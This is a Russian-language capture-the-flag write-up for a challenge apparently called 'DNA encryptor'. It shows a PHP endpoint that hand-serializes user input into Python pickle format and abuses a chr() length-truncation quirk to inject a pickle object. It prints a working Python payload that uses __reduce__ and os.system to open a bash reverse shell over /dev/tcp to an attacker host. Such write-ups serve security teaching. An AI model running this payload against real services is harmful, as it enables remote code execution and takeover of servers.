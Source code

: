 # Шифрователь ДНК

Проанализировав исходный код, видим самописную сериализацию для Python:

```php
$router->post('/', function (\Illuminate\Http\Request $request) {
    function pickle_dumps($array) {
        $pickle = "";
        foreach ($array as $str) {
            $pickle .= "\x8C" . chr(strlen($str)) . $str . "\x94";
        }
        $pickle = "\x5D\x94\x28" . $pickle . "\x65";
        $pickle = "\x80\x04\x95" . pack("Q", strlen($pickle)) . $pickle . "\x2E";
        return $pickle;
    }
    $conversion_type = $request->input('conversion_type');
    $array = $request->input('data');
    var_dump($array);
    $pickle = pickle_dumps($array);
```

Если данные тщательно не валидируются (а еще хуже берутся прямо у пользователя) возникает большая проблема. Десериализация специально сконструированного пэйлоада в питоне может привести к [исполнению произвольного кода](https://github.com/CalfCrusher/Python-Pickle-RCE-Exploit).

Наш случай несколько сложнее, ведь код выше сериализует массив в питоновский список строк, поэтому нужно передать такую строку, чтобы на выходе получить валидные данные, которые сможет скушать *pickle*.

Заметим одну важную деталь - `chr` возвращает символ из последнего байта числа, т.е. если передать ему 0x101, он вернет \x01. Теперь можно подготовить payload:

```python
from pickle import dumps
from base64 import b64encode

class evil(object):
    def __reduce__(self):
        import os
        return (os.system, (cmd,))

cmd = 'bash -c "bash -i >& /dev/tcp/ip/port 0>&1"'

payload = dumps(evil()) + b'\x8c\x01a'
n = 0x101 - len(payload) - 4
payload = b'a\x94\x8c' + bytes([n]) + b'a' * n + payload

print(b64encode(payload))
```

Таким образом длина payload'а = 0x101

- закрытие строки длиной 1 +
- padding строка (которая увеличивает длину payload'а) +
- RCE объект +
- открытие строки длиной 1

Зашлем наш payload на сервер и получим флаг:

![Конвертируем Base64 в URL](base64_encode_to_url.png)

![Засылаем payload](response.png)

